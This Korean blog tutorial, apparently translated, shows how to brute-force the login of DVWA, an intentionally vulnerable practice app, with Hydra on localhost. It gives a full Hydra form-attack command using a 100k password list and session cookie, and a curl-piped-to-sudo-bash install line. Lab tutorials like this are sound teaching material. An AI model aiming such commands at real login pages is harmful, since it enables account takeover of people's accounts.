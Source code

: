 ```yaml
---
title: "Hydra로 DVWA에 브루트 포스 공격하는 방법"
description: ""
coverImage: "/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_0.png"
date: 2024-06-30 18:51
ogImage:
  url: /assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_0.png
tag: Tech
originalTitle: "Brute Force Attack DVWA with Hydra"
link: "https://medium.com/@andres.cabeza/brute-force-attack-dvwa-with-hydra-38a6b0dacca3"
isUpdated: true
---
```


안녕하세요! 오늘은 DVWA 브루트 포스 랩을 해킹하는 간단한 명령어를 두 가지 도구를 사용하여 소개하려고 해요.

참고: 이것은 교육적인 자습서 입니다. 본 자습서를 남용할 시에 발생하는 어떠한 문제에 대해서도 책임지지 않습니다.

# 준비물

본 자습서에서는 Ubuntu 머신을 사용하지만 Kali Linux도 사용할 수 있어요. 먼저 필요한 도구들을 설치해 봅시다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 단계 1: DVWA 설치 및 구성

시작하려면 DVWA 프로젝트를 구성해야 합니다. 깃허브 저장소를 복제하고 Apache 서버를 PHP로 설정할 수 있습니다. 또는 다음 컨테이너를 사용하여 Docker를 통해 DVWA를 설치할 수 있습니다: https://hub.docker.com/r/vulnerables/web-dvwa

```js
sudo bash -c "$(curl --fail --show-error --silent --location https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh)"
```

![이미지](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_0.png)

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 단계 2: 하이드라 설치

이제 비밀번호 크래킹을 위한 하이드라 도구를 설치해야 합니다. Kali Linux를 사용 중이더라도 설정이 필요할 수 있습니다:

```js
git clone https://github.com/vanhauser-thc/thc-hydra
cd thc-hydra
./configure
make
sudo make install
hydra
```

![이미지](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_1.png)

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

# 단계 3: 비밀번호 사전 준비하기

비밀번호 사전이 필요합니다. Kali Linux를 사용하고 있다면 crunch 도구를 사용하여 비밀번호 사전을 생성하거나 리눅스 머신에 설치할 수 있습니다. 이 튜토리얼에서는 Daniel Miessler 저장소에서 가장 많이 사용되는 100k개의 비밀번호 목록을 사용합니다.

# 단계 4: 대상 식별하기

대상 페이지를 검토하여 비밀번호 필드의 이름과 양식 제출 방법(GET인 경우)을 식별하세요.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

<img src="/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_2.png" />

<img src="/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_3.png" />

<img src="/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_4.png" />

# 단계 5: 실패 메시지 가져오기

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

로그인에 실패한 경우에 나타나는 메시지를 확인해주세요. 예를 들어, "사용자 이름 또는 비밀번호가 올바르지 않습니다."와 같이 표시됩니다.

## 단계 6: 세션 ID 획득

리디렉션을 피하기 위해 세션 ID를 획득합니다. 브라우저에 따라 프록시를 사용하는 등 여러 방법으로 세션 ID를 가져올 수 있습니다.

## 공격 실행

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

Hydra를 사용한 브루트 포스 공격의 주요 명령어는 다음과 같아요:

```js
hydra -L users.txt -P 100k-most-used-passwords-NCSC.txt localhost http-get-form \
"/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=medium; PHPSESSID=sessionID:Username and/or password incorrect." -V
```

이 명령어를 설명해볼게요

- -L: 크랙할 사용자 목록
- -P: 비밀번호 사전
- -V: 상세 모드
- localhost: 공격할 주소
- http-get-form: GET 메서드 사용
- /DVWA/vulnerabilities/brute/: 경로
- 마지막으로 사용자 이름과 비밀번호 변수를 전달하여 시도해봐요.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

마지막으로, 우리가 얻은 결과는 다음과 같습니다

![Image 1](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_5.png)

![Image 2](/assets/img/2024-06-30-BruteForceAttackDVWAwithHydra_6.png)

이 내용을 통해 Hydra를 사용하여 DVWA에 대한 브루트 포스 공격을 수행하는 방법을 안내해 드렸습니다. 이 지식을 책임있게 활용해 주세요.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

친절한 답변 감사합니다! 이 튜토리얼이 도움이 되었으면 좋겠어요. 이 도구들을 책임있게 사용해주세요. 🛡️💻

다음에 또 만나요! 🚀😊
